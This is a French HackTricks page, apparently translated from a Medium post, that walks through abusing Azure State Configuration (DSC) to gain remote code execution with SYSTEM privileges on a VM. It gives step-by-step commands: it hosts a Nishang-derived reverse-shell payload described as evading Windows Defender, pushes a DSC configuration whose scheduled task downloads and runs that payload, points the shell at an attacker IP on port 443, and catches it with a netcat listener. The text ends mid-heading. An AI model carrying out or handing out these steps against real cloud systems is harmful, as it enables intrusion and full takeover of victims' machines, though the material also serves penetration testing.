 # Az - State Configuration RCE

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

</details>

**Ce post a été copié depuis** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Préparation de l'infrastructure du serveur distant (C2) <a href="#f0fa" id="f0fa"></a>

Je vais héberger une version allégée de la charge utile Nishang Invoke-PowerShellTcp.ps1 depuis le serveur distant "40.84.7.74", qui est la boîte Kali. Le nom de la charge utile sera "RevPS.ps1". Pour éviter que le script Nishang ne soit supprimé par Windows Defender pour une raison quelconque (peut-être préférez-vous déposer le fichier sur le disque), j'ai une version légère ici que vous pouvez utiliser et qui contournera Defender : [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1). Cela sera hébergé par un simple serveur Python Simple sur la boîte Kali.

### Étape 1 - Créer des fichiers <a href="#89de" id="89de"></a>

Nous devrons créer un autre fichier de configuration DSC. Un modèle peut être téléchargé ici : [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1). Ce fichier de configuration utilisera la même fonction d'écriture de fichier que celle que nous avons utilisée précédemment. Cette fois, le contenu inclut du code pour télécharger et exécuter une charge utile depuis notre serveur distant. De plus, nous utilisons une fonction de tâche planifiée disponible dans le module _ComputerManagementDsc_. La fonction de tâche planifiée jouera un rôle clé dans l'exécution et nous fournira des privilèges SYSTEM plus tard.

Nous téléchargerons également un script qui sera utilisé pour publier notre configuration sur la VM. Il se trouve ici : [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).

Ces fichiers serviront de modèle. **Vous devrez remplir les noms de variables et les paramètres avec ce que vous utilisez**. Cela inclut les noms de ressources, les chemins de fichiers et les noms de serveurs externes/charges utiles que vous utilisez. Veuillez vous référer aux commentaires dans le code.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Étape 2 - Zipper le fichier de configuration <a href="#c2c2" id="c2c2"></a>

Avec nos deux fichiers créés, nous allons compresser le fichier **'reverse\_shell\_config.ps1'** afin qu'il puisse être envoyé au compte de stockage.

```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```

<figure><img src="../../../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

### Étape 3 - Définir le contexte de stockage et télécharger <a href="#bed9" id="bed9"></a>

Encore une fois, nous allons configurer le contexte de notre compte de stockage que j'ai déjà fait. J'ai déjà un conteneur nommé '**azure-pentes**t', c'est donc là que je vais publier le mien :

```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```

<figure><img src="../../../../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

### Étape 4 - Préparer la boîte Kali <a href="#20fb" id="20fb"></a>

Dans notre boîte Kali, nous pouvons simplement _wget_ notre charge utile PowerShell. Le script de reverse-shell brut est situé ici : [https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1).

```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```

<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

Nous devons modifier le script de reverse-shell en y ajoutant nos paramètres, afin que la VM Windows sache où se connecter une fois qu'il est exécuté. Dans mon cas, j'ajoute ce qui suit :

```
RevPShell -Reverse 40.84.7.73 443
```

<figure><img src="../../../../.gitbook/assets/image (2) (3).png" alt=""><figcaption></figcaption></figure>

### Étape 5 - Publier le fichier de configuration <a href="#9ad6" id="9ad6"></a>

Maintenant, nous allons exécuter notre fichier de configuration. J'ai le mien configuré pour être publié sur le bureau pour une meilleure visualisation, mais il peut être publié à peu près n'importe où. Après quelques minutes, nous verrons que le script de reverse-shell a été publié !

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Étape 6 - Héberger la charge utile et configurer l'écouteur <a href="#c55f" id="c55f"></a>

Une fois que nous avons publié la configuration, nous pouvons simultanément démarrer un serveur Python SimpleHTTPServer sur le port 80 pour héberger la charge utile, ainsi qu'un écouteur netcat pour intercepter la connexion :

```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```

Nous voyons que la tâche planifiée a été exécutée et que notre charge utile a été récupérée et exécutée en mémoire avec des privilèges de niveau **SYSTEM** !

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### Conclusion <a href="#1